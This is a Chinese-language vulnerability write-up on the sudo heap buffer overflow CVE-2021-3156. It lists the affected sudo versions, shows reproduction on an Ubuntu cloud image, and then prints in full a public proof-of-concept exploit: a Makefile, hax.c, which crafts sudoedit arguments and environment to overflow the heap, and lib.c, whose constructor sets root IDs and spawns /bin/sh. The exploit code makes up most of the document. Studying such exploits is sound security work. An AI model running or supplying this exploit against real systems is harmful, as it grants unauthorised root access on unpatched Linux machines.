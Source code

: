 # Linux sudo权限提升漏洞 CVE-2021-3156

## 漏洞描述

2021年1月26日，Linux安全工具sudo被发现严重的基于堆缓冲区溢出漏洞。利用这一漏洞，攻击者无需知道用户密码，一样可以获得root权限，并且是在默认配置下。此漏洞已分配为CVE-2021-3156，危险等级评分为7分。

当sudo通过-s或-i命令行选项在shell模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用-s或-i标志运行sudoedit时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在sudoers文件（通常是/etc/sudoers），攻击者就可以使用本地普通用户利用sudo获得系统root权限。研究人员利用该漏洞在多个Linux发行版上成功获得了完整的root权限，包括Ubuntu 20.04（sudo 1.8.31）、Debian 10（sudo 1.8.27）和Fedora 33（sudo 1.9.2），并且sudo支持的其他操作系统和Linux发行版也很容易受到攻击。

## 漏洞影响

```
Sudo 1.8.2 - 1.8.31p2
Sudo 1.9.0 - 1.9.5p1
```

## 漏洞复现

目前POC已经在Github公开：[Linux sudo权限提升漏洞 CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

![img](./images/1627098472921-85639abb-364c-4fed-929d-1739cb4128cb.png)

当前可以验证的Linux环境为

```
 Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31  Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
```

**这里使用腾讯云中的Ubuntu镜像进行复现**

[![img](./images/1627098472850-197fab3c-2c70-48af-969c-e0f4108abe55.png)]()

使用命令

[![img](./images/1627098472851-ffe05143-de53-4d3d-8607-d825a9f9d76c.png)]()

[![img](./images/1627098473043-7c4d517c-465d-4261-a02d-549b7e8436c8.png)]()

## 漏洞利用POC

一个无交互式shell使用的脚本 https://github.com/Rvn0xsy/CVE-2021-3156-plus

**Makefile**

```c
all:
	rm -rf libnss_X
	mkdir libnss_X
	gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
	gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
brute: all
	gcc -DBRUTE -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
clean:
	rm -rf libnss_X sudo-hax-me-a-sandwich
```

**hax.c**

```c
/**
 ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
 ** ===========================================
 **
 ** Exploit for that sudo heap overflow thing everyone is talking about.
 ** This one aims for singleshot. Does not fuck with your system files.
 ** No warranties.
 **
 ** Shout outs to:
 **   Qualys      - for pumping out the awesome bugs
 **   lockedbyte  - for coop hax. (shared tmux gdb sessions ftw)
 **   dsc         - for letting me rack up his electricity bill
 **   my wife     - for all the quality time we had to skip
 **
 **  Enjoy!
 **
 **   -- blasty // 20210130
 **/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <ctype.h>

// 512 environment variables should be enough for everyone
#define MAX_ENVP 512
#define SUDOEDIT_PATH "/usr/bin/sudoedit"

typedef struct {
	char *target_name;
	char *sudoedit_path;
	uint32_t smash_len_a;
	uint32_t smash_len_b;
	uint32_t null_stomp_len;
	uint32_t lc_all_len; 
} target_t;

target_t targets[] = {
    {
        // Yes, same values as 20.04.1, but also confirmed.
        .target_name    = "Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    },
    {
        .target_name    = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    },
    {
        .target_name    = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 64,
        .smash_len_b    = 49,
        .null_stomp_len = 60, 
        .lc_all_len     = 214
    }
};

void usage(char *prog) {
    fprintf(stdout,
        "  usage: %s <target>\n\n"
        "  available targets:\n"
        "  ------------------------------------------------------------\n",
        prog
    );
    for(int i = 0; i < sizeof(targets) / sizeof(target_t); i++) {
        printf("    %d) %s\n", i, targets[i].target_name);
    }
    fprintf(stdout,
        "  ------------------------------------------------------------\n"
        "\n"
        "  manual mode:\n"
        "    %s <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>\n"
        "\n",
        prog
    );
}

int main(int argc, char *argv[]) {
    printf("\n** CVE-2021-3156 PoC by blasty <peter@haxx.in>\n\n");

    if (argc != 2 && argc != 5) {
        usage(argv[0]);
        return -1;
    }

    target_t *target = NULL;
    if (argc == 2) {
        int target_idx = atoi(argv[1]);

        if (target_idx < 0 || target_idx >= (sizeof(targets) / sizeof(target_t))) {
            fprintf(stderr, "invalid target index\n");
            return -1;
        }

        target = &targets[ target_idx ];
    }  else {
        target = malloc(sizeof(target_t));
        target->target_name    = "Manual";
        target->sudoedit_path  = SUDOEDIT_PATH;
        target->smash_len_a    = atoi(argv[1]);
        target->smash_len_b    = atoi(argv[2]);
        target->null_stomp_len = atoi(argv[3]);
        target->lc_all_len     = atoi(argv[4]);
    }

    printf(
        "using target: %s ['%s'] (%d, %d, %d, %d)\n", 
        target->target_name,
        target->sudoedit_path,
        target->smash_len_a,
        target->smash_len_b,
        target->null_stomp_len,
        target->lc_all_len
    );

    char *smash_a = calloc(target->smash_len_a + 2, 1);
    char *smash_b = calloc(target->smash_len_b + 2, 1);

    memset(smash_a, 'A', target->smash_len_a);
    memset(smash_b, 'B', target->smash_len_b);

    smash_a[target->smash_len_a] = '\\';
    smash_b[target->smash_len_b] = '\\';

    char *s_argv[]={
        "sudoedit", "-s", smash_a, "\\", smash_b, NULL
    };

    char *s_envp[MAX_ENVP];
    int envp_pos = 0;

    for(int i = 0; i < target->null_stomp_len; i++) {
        s_envp[envp_pos++] = "\\";
    }
    s_envp[envp_pos++] = "X/P0P_SH3LLZ_";

    char *lc_all = calloc(target->lc_all_len + 16, 1);
    strcpy(lc_all, "LC_ALL=C.UTF-8@");
    memset(lc_all+15, 'C', target->lc_all_len);

    s_envp[envp_pos++] = lc_all;
    s_envp[envp_pos++] = NULL;

    printf("** pray for your rootshell.. **\n");

    execve(target->sudoedit_path, s_argv, s_envp);
    return 0;
}
```

**lib.c**

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
static void __attribute__ ((constructor)) _init(void);
 
static void _init(void) {
	printf("[+] bl1ng bl1ng! We got it!\n");
#ifndef BRUTE
	setuid(0); seteuid(0); setgid(0); setegid(0);
	static char *a_argv[] = { "sh", NULL };
	static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };
	execv("/bin/sh", a_argv);
#endif
}
```